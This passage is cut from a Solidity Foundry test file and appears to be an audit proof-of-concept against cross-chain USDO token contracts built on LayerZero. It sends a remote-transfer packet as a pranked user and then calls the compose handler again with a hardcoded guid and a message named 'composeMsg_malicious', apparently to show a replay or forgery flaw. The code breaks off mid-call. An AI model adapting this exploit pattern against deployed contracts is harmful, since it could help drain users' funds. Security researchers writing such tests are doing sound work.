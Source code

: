 ```solidity
                amountToSendLD: 0,
                minAmountToCreditLD: 0,
                msgType: PT_REMOTE_TRANSFER,
                composeMsgData: ComposeMsgData({
                    index: 0,
                    gas: 1_500_000,
                    value: uint128(remoteMsgFee_.nativeFee),
                    data: remoteTransferMsg_,
                    prevData: bytes(""),
                    prevOptionsData: bytes("")
                }),
                lzReceiveGas: 1_500_000,
                lzReceiveValue: 0
            })
        );
        
        bytes memory composeMsg_ = prepareLzCallReturn2_.composeMsg;
        bytes memory oftMsgOptions_ = prepareLzCallReturn2_.oftMsgOptions;
        MessagingFee memory msgFee_ = prepareLzCallReturn2_.msgFee;
        LZSendParam memory lzSendParam_ = prepareLzCallReturn2_.lzSendParam;


        assertEq(bUsdo.balanceOf(address(userA)), 0);

        vm.deal(userA, msgFee_.nativeFee);
        vm.prank(userA);
        (MessagingReceipt memory msgReceipt_,) = aUsdo.sendPacket{value: msgFee_.nativeFee}(lzSendParam_, composeMsg_);

        {
            verifyPackets(uint32(bEid), address(bUsdo));

            // Initiate approval
            // bUsdo.approve(address(bUsdo), 0); // Needs to be pre approved on B chain to be able to transfer

            __callLzCompose(
                LzOFTComposedData(
                    PT_REMOTE_TRANSFER,
                    msgReceipt_.guid,
                    composeMsg_,
                    bEid,
                    address(bUsdo), // Compose creator (at lzReceive)
                    address(bUsdo), // Compose receiver (at lzCompose)
                    // address(this),
                    userA,
                    oftMsgOptions_
                )
            );
        }

        {
            verifyPackets(uint32(aEid), address(aUsdo));

            __callLzCompose(
                LzOFTComposedData(
                    PT_REMOTE_TRANSFER,
                    0x5ad79811938c8bdd48e3513a72d845d4d5258f47b0baa7be1952ae2c2b2fc427,//hardcoded because it is not returned  (it is called internally and the return value is not bubbled up)
                    composeMsg_malicious,
                    aEid,
                    address(aUsdo), // Compose creator (at lzReceive)
                    address(aUsdo), // Compose receiver (at lzCompose)
```